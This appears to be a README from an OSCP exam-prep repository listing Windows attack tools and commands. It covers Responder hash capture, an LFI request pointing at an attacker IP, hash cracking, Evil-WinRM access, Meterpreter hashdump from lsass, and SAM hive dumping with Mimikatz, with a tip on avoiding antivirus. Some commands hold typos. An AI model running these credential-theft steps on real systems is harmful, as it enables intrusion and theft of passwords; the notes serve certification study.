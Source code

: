 # Windows Resources 
Use this folder for triaging and compromising a standalone Windows box. For domain compromising, see [Active_Directory](https://github.com/Scr1ptK1ddie/OSCPprep/tree/main/ActiveDirectory) folder.   
## Contents 
- [Windows Resources](#windows-resources)
  * [Contents](#contents)
  * [Tools](#tools)
    + [Impacket](#impacket)
    + [Responder (not allowed on the OSCP exam, but a common pen testing tool)](#responder--not-allowed-on-the-oscp-exam--but-a-common-pen-testing-tool-)
    + [Evil-WinRM](#evil-winrm)
    + [Metasploit and Meterpreter](#metasploit-and-meterpreter)

## Tools
### Impacket 
https://github.com/SecureAuthCorp/impacket

    apt install impacket-scripts

Local Locations:

    /usr/share/doc/python3-impacket/examples   
    
### Responder (not allowed on the OSCP exam, but a common pen testing tool)   
Allows you to spoof various services then capture hashes from devices that try to authenticate to those.  
Common use: poison responses during NetNTLM authentication to capture credentials. Might be able to relay the challenge instead of just capturing it. Ref: https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html       
  
Install:   

    git clone https://github.com/lgandx/Responder   
 Usage:   

     sudo responder.py -I eth0   #start on specified interface. Hashes will be captured when a device tries to authenticate to resources on the network.               
    
You might be able to use a LFI vulnerability to request a resource and capture a hash using Responder. Ex - http://site.com/?page=//10.10.14.25/somefile           
Captured hashes will be stored in the logs folder, in a .txt file named for the protcol-hash type- and IP captured from.     
Crack Hashes from responder:     

    john hashes.txt   #John the Ripper will automatically detect the format of hashes collected by Responder.    
    hashcat -m 5500   #NTLMv1 (hashes captured from using a tool like Responder)     
    hashcat -m 5600   #NTLMv2 (hashes captured from using a tool like Responder)   
    
### Evil-WinRM
Access port 5985. Use with a username / password or username / hash. 

    $ evil-winrm -u Administrator -p password -i 10.10.10.10    

### Metasploit and Meterpreter   
Meterpreter shell: need to migrate to lsass process to dump hashes, due to process permissions on Windows.         
    
    meter > migrate -N lsasse.exe       
    meter > hashdump     
    
### Dump Hives and Extract with Mimikatz     
AV products will flag on Mimikatz so only do this if you are sure if won't (otherwise crack the hashes locally).     

    C:\Temp> reg save hklm\sam sam.hive && reg save hklm\system system.hiv     
    C:\Temp> c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv /system:system.hiv" "exit"   
    
    username:userid:LANMAN:NTHASH   #hash format when extracted  
